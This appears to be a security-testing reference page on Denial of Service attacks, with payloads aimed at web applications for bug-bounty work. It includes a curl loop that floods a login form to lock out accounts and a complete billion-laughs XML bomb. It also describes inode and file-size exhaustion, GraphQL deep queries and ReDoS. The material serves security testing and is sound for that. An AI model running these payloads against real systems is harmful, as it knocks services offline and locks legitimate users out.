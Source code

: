 # Denial of Service

> A Denial of Service (DoS) attack aims to make a service unavailable by overwhelming it with a flood of illegitimate requests or exploiting vulnerabilities in the target's software to crash or degrade performance. In a Distributed Denial of Service (DDoS), attackers use multiple sources (often compromised machines) to perform the attack simultaneously.


## Summary

* [DoS - Locking Customer Accounts](#dos---locking-customer-accounts)
* [DoS - File Limits on FileSystem](#dos---file-limits-on-filesystem)
* [DoS - Memory Exhaustion - Technology Related](#dos---memory-exhaustion---technology-related)


## DoS - Locking Customer Accounts

Example of Denial of Service that can occur when testing customer accounts. 
Be very careful as this is most likely **out-of-scope** and can have a high impact on the business.

* Multiple attempts on the login page when the account is temporary/indefinitely banned after X bad attempts.
    ```ps1
    for i in {1..100}; do curl -X POST -d "username=user&password=wrong" <target_login_url>; done
    ```


## DoS - File Limits on FileSystem

When a process is writing a file on the server, try to reach the maximum number of files allowed by the filesystem format. The system should output a message: `No space left on device` when the limit is reached.
 
| Filesystem | Maximum Inodes |
| ---        | --- |
| BTRFS      | 2^64 (~18 quintillion) |
| EXT4       | ~4 billion |
| FAT32      | ~268 million files |
| NTFS       | ~4.2 billion (MFT entries) |
| XFS        | Dynamic (disk size) |
| ZFS        | ~281 trillion |

An alternative of this technique would be to fill a file used by the application until it reaches the maximum size allowed by the filesystem, for example it can occur on a SQLite database or a log file.

FAT32 has a significant limitation of **4 GB**, which is why it's often replaced with exFAT or NTFS for larger files.

Modern filesystems like BTRFS, ZFS, and XFS support exabyte-scale files, well beyond current storage capacities, making them future-proof for large datasets.


## DoS - Memory Exhaustion - Technology Related

Depending on the technology used by the website, an attacker may have the ability to trigger specific functions or paradigm that will consume a huge chunk of memory

* **XML External Entity**: Billion laughs attack/XML bomb
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
* **GraphQL**: Deep Query
* **Image Resizing**: try to send invalid pictures with modified headers, e.g: abnormal size, big number of pixels.
* **SVG handling**: SVG file format is based on XML, try the billion laughs attack.
* **Regular Expression**: ReDoS


## References

* [DEF CON 32 - Practical Exploitation of DoS in Bug Bounty - Roni Lupin Carta - 16 oct. 2024](https://youtu.be/b7WlUofPJpU)
* [Denial of Service Cheat Sheet - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html)